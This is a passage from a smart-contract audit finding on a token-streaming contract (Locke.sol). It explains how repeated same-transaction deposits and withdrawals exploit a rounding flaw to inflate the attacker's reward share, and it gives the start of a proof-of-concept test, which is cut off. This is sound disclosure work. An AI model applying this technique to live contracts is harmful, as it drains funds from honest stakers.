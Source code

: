     // update user rewards
    ts.rewards = earned(ts, cumulativeRewardPerToken);

While the following line can be gamed in order to not stream any tokens (same withdraw tx).

Specifically an attacker can arrange to create a fraction less than zero thereby substracting zero.

[https://github.com/code-423n4/2021-11-streaming/blob/56d81204a00fc949d29ddd277169690318b36821/Streaming/src/Locke.sol#L229](https://github.com/code-423n4/2021-11-streaming/blob/56d81204a00fc949d29ddd277169690318b36821/Streaming/src/Locke.sol#L229)

    ts.tokens -= uint112(acctTimeDelta * ts.tokens / (endStream - ts.lastUpdate));
    // WARDEN TRANSLATION: (elapsedSecondsSinceStake * stakeAmount) / (endStreamTimestamp - stakeTimestamp)

A succesful attack increases the share of rewardTokens of the attacker.

The attack can be repeated every block increasing the share further. The attack could be done from multiple EOA increasing the share further. In short: Attackers can create loss of funds for (honest) stakers.

The economic feasability of the attack depends on:

*   staked amount (times number of attacks) vs total staked amount
*   relative value of rewardToken to gasprice

#### [](#proof-of-concept-5)Proof of Concept

##### [](#code)code

The following was added to `Locke.t.sol` for the `StreamTest` Contract to simulate the attack from one EOA.

    function test_quickDepositAndWithdraw() public {
        //// SETUP
        // accounting (to proof attack): save the rewardBalance of alice.
        uint StartBalanceA = testTokenA.balanceOf(address(alice));
        uint112 stakeAmount = 10_000;
    
        // start stream and fill it
        (
            uint32 maxDepositLockDuration,
            uint32 maxRewardLockDuration,
            uint32 maxStreamDuration,
            uint32 minStreamDuration
        ) = defaultStreamFactory.streamParams();
    
        uint64 nextStream = defaultStreamFactory.currStreamId();
        Stream stream = defaultStreamFactory.createStream(
            address(testTokenA),
            address(testTokenB),
            uint32(block.timestamp + 10), 
            maxStreamDuration,
            maxDepositLockDuration,
            0,
            false
            // false,
            // bytes32(0)
        );
        